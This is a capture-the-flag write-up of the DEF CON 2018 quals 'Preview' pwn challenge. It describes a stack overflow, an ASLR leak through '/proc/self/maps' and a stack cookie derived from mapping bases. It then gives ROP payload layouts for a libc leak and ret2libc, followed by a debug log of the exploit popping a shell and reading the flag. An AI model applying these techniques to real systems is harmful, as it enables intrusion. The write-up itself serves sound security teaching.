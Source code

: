 # Preview

Category: Pwn

In this challenge, are given a [binary](./preview) `preview` and the corresponding [libc](./libc.so.6). So at least it isn't blind this time around.

We open it up in IDA, and we notice that there's some funky `mmap`-ing going on, and it jumps to the `mmap`ed region.

In GDB, we notice that the actual functionality of the program we observe over nc doesn't happen inside the code segment of the `preview` binary, so we deduce that it must be manually mapping a stage2 for the actual chal functionality.

To take care of that, we can use the `vmmap` command in pwndbg and do a memory dump of the mapped segments to get a [binary](./a) for the real code.

There's a pretty obvious stack overflow for reading the command from the user, where the buffer is only 88 bytes big, but the read is 256 bytes in `process_command`.

We don't know the location that our stage2 is manual mapped at, but luckily on the remote server (and locally) we can do `HEAD /proc/self/maps` to leak it. That bypasses ASLR.

At this point, we were stuck for a long time because of the stack cookie.
However, after some experimentation and staring at `vmmap` in pwndbg, we noticed that the stack cookie is equal to `(base of ld.so << 24) | (base of stage2 >> 4)`!

So now, it's quite trivial to write a ROPchain to leak libc and ret2libc.

```
+0x00 "HEAD "
+0x05 padding
+0x58 saved rbp
+0x60 pop rdi; ret gadget
+0x68 puts@got - value used to leak libc
+0x70 puts@plt - return address from previous gadget
+0x78 main - return address from puts@plt ; stage2 of exploit
```

At this point we have leaked libc and we are back in main safe and sound, which means we can just do the overflow once more to ret2libc.

```
+0x00 "HEAD "
+0x05 padding
+0x58 saved rbp
+0x60 execve(/bin/sh) in libc
```

Output:
```
[x] Opening connection to cee810fa.quals2018.oooverflow.io on port 31337
[x] Opening connection to cee810fa.quals2018.oooverflow.io on port 31337: Trying 52.52.107.212
[+] Opening connection to cee810fa.quals2018.oooverflow.io on port 31337: Done
Solving challenge: "ivNoWSyZYl", n: 22
[x] Starting local process './fastpow'
[+] Starting local process './fastpow': pid 32272
Solution: 849294 -> e91045e7af51404a3a6343074f021b15c32a7087ffa867fcb3942f36f9400000
[DEBUG] Sent 0x15 bytes:
    'HEAD /proc/self/maps\n'
[DEBUG] Received 0x16 bytes:
    'Welcome to preview 0.1'
[DEBUG] Received 0x1cc bytes:
    '\n'
    'Standing by for your requests\n'
    "Here's your preview:\n"
    'b41006a000-b410090000 r-xp 00000000 ca:01 1969                           /lib/x86_64-linux-gnu/ld-2.23.so\n'
    'b41028f000-b410290000 r--p 00025000 ca:01 1969                           /lib/x86_64-linux-gnu/ld-2.23.so\n'
    'b410290000-b410291000 rw-p 00026000 ca:01 1969                           /lib/x86_64-linux-gnu/ld-2.23.so\n'
    'b410291000-b410292000 rw-p 00000000 00:00 0 \n'
    'fc9b47d000-fc9b47f000 r-xp 00000000 00:00 0 \n'
stack cookie = b41006afc9b47d00
break *0xfc9b47dfd6
[DEBUG] Sent 0xfb bytes:
    00000000  48 45 41 44  20 00 00 00  00 00 00 00  00 00 00 00  │HEAD│ ···│····│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000050  00 00 00 00  00 00 00 00  00 7d b4 c9  af 06 10 b4  │····│····│·}··│····│
    00000060  00 00 00 00  00 00 00 00  b3 e0 47 9b  fc 00 00 00  │····│····│··G·│····│
    00000070  20 f0 67 9b  fc 00 00 00  e0 d9 47 9b  fc 00 00 00  │ ·g·│····│··G·│····│
    00000080  e8 df 47 9b  fc 00 00 00  00 00 00 00  00 00 00 00  │··G·│····│····│····│
    00000090  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000000f0  00 00 00 00  00 00 00 00  00 00 0a                  │····│····│···│
    000000fb
[DEBUG] Received 0x5a bytes:
    'fc9b67e000-fc9b67f000 r--p 00000000 00:00 0 \n'
    'fc9b67f000-fc9b680000 rw-p 00000000 00:00 0 \n'
[DEBUG] Received 0x4f bytes:
    00000000  52 65 73 6f  75 72 63 65  20 6e 6f 74  20 66 6f 75  │Reso│urce│ not│ fou│
    00000010  6e 64 0a 90  96 f3 9c 4b  7f 0a 57 65  6c 63 6f 6d  │nd··│···K│··We│lcom│
    00000020  65 20 74 6f  20 70 72 65  76 69 65 77  20 30 2e 31  │e to│ pre│view│ 0.1│
    00000030  0a 53 74 61  6e 64 69 6e  67 20 62 79  20 66 6f 72  │·Sta│ndin│g by│ for│
    00000040  20 79 6f 75  72 20 72 65  71 75 65 73  74 73 0a     │ you│r re│ques│ts·│
    0000004f
fc9b67e000-fc9b67f000 r--p 00000000 00:00 0 
fc9b67f000-fc9b680000 rw-p 00000000 00:00 0 
Resource not found

puts@got = 00007f4b9cf39690
[DEBUG] PLT 0x1f7f0 realloc
[DEBUG] PLT 0x1f800 __tls_get_addr
[DEBUG] PLT 0x1f820 memalign
[DEBUG] PLT 0x1f850 _dl_find_dso_for_object
[DEBUG] PLT 0x1f870 calloc
[DEBUG] PLT 0x1f8a0 malloc
[DEBUG] PLT 0x1f8a8 free
[*] '/home/user/ctf/defcon/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc = 00007f4b9ceca000
[DEBUG] Sent 0xfb bytes:
    00000000  48 45 41 44  20 00 00 00  00 00 00 00  00 00 00 00  │HEAD│ ···│····│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000050  00 00 00 00  00 00 00 00  00 7d b4 c9  af 06 10 b4  │····│····│·}··│····│
    00000060  00 00 00 00  00 00 00 00  16 f2 f0 9c  4b 7f 00 00  │····│····│····│K···│
    00000070  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000000f0  00 00 00 00  00 00 00 00  00 00 0a                  │····│····│···│
    000000fb
[DEBUG] Received 0x12 bytes:
    'Resource not found'
[DEBUG] Received 0x1 bytes:
    '\n'

Welcome to preview 0.1
Standing by for your requests
Resource not found

[*] Switching to interactive mode
[DEBUG] Sent 0x1 bytes:
    'l' * 0x1
[DEBUG] Sent 0x1 bytes:
    's' * 0x1
[DEBUG] Sent 0x1 bytes:
    '\n' * 0x1
[DEBUG] Received 0x5 bytes:
    'flag\n'
flag
[DEBUG] Sent 0x1 bytes:
    'c' * 0x1
[DEBUG] Sent 0x1 bytes:
    'a' * 0x1
[DEBUG] Sent 0x1 bytes:
    't' * 0x1
[DEBUG] Sent 0x1 bytes:
    ' ' * 0x1
[DEBUG] Sent 0x1 bytes:
    'f' * 0x1
[DEBUG] Sent 0x1 bytes:
    'l' * 0x1
[DEBUG] Sent 0x1 bytes:
    'a' * 0x1
[DEBUG] Sent 0x1 bytes:
    'g' * 0x1
[DEBUG] Sent 0x1 bytes:
    '\n' * 0x1
[DEBUG] Received 0x44 bytes:
    'OOO{ZOMG, WhAT iF order-of-the-overfow IS ddtek?!?!?!? Plot Twist!}\n'
OOO{ZOMG, WhAT iF order-of-the-overfow IS ddtek?!?!?!? Plot Twist!}
[*] Process './fastpow' stopped with exit code 0 (pid 32272)
[*] Closed connection to cee810fa.quals2018.oooverflow.io port 31337
```

[Final exploit script](./preview.py)
